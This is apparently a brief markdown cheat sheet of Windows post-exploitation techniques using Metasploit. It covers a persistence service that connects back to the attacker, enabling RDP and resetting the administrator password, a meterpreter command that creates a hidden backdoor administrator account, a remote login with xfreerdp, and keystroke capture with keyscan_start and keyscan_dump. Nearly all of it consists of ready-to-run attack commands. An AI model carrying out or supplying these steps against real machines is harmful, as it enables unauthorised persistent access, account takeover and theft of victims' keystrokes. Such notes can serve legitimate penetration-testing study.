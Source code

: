 # Useful Metasploit modules

- exploit/windows/local/persistence_service
	- creates service that continuously connects back to attacker.
	- run multi/handler with required payload parameters ^

	![msf module](./images/persist-01.png)
	![msf module](./images/persist-02.png)	
	￼
- post/windows/manage/enable_rdp
	- net user administrator hacker_123321 : change admin password
	- use xfreerdp to connect to victim from attacker
	
	![msf module](./images/persist-03.png)
		

# Backdoor User Account

- meterpreter: run getgui -e -u muku -p hacker_123321 
	- enables rdp service
	- creates new user with the provided parameters
	- hides user from windows login screen
	- adds user to Remote Desktop Users and Administrators group.
	- on attacker machine - xfreerdp /u:muku /p:hacker_123321 /v:<target_ip>

# Keylogger

- in meterpreter, migrate to explorer.exe process
- keyscan_start : start keylogger
- keyscan_dump : print captured strokes